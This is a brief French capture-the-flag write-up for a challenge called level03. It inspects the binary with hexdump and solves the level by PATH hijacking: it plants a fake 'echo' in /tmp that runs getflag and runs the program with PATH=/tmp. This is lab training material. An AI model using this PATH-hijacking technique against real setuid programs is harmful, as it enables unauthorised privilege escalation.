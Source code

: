 ```
$> ./level03
Exploit me
$>
```
On peut voir dans l'executable avec hexdump

```sh
hexdump -C level03 | grep Exploit -B 5 -A 5
```

ON peut ensuite faire un faux echo qui executera getflag, et Changer le PATH pour donner priorite a notre executable et forcer ./level03 a executer getflag.
```
echo /bin/getflag > /tmp/echo
chmod 777 /tmp/echo
env -i PATH=/tmp ./level03
```
